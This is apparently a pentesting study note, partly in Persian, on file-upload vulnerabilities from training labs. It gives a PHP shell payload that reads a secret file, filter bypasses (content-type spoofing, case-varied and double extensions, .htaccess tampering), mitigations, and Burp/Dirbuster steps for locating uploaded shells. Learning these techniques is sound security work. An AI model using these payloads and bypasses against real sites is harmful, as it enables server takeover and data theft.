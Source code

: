 # File Upload

## Concept
- با تغییر نام فایل آپلود شده در Burp می توانیم حملات XSS و RCE انجام دهیم

## Exploit
- آپلود شل PHP
  - برای عکس پروفایل، فایل *test.php* را با محتوای زیر را آپلود می کنیم
  - آدرس عکس آواتار را وارد می کنیم تا نتیجه اجرای کد PHP نمایش داده شود
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

## Bypass
- Content type
  - ```application/octet-stream``` => ```image/jpeg```
- Black list
  - Apache web server is case sensetive : ```.php``` => ```.PhP```  
  - modify htaccess (SEC542 - 7) 
- Double Extension
  - ```wp.php``` => ```wp.php.gif```

## Mitigation
- Never allow users to upload executable
- Check the file type & extension
- Analyze the uploaded file itself, recreate it and rename it (with library)

## Find Uploaded Shell
- Burp
  - Intruder > Payloads > Add Payload Processing > test
  - Suffix: ```.php```
- Dirbuster
  - Set *Target URL* & *File name* & *File Extension*
  - Set user/pass to auto matically login to site
  - Options > Advanced Options > Double Extension

## Tool
- [Weevely](/Tools/weevely.md)
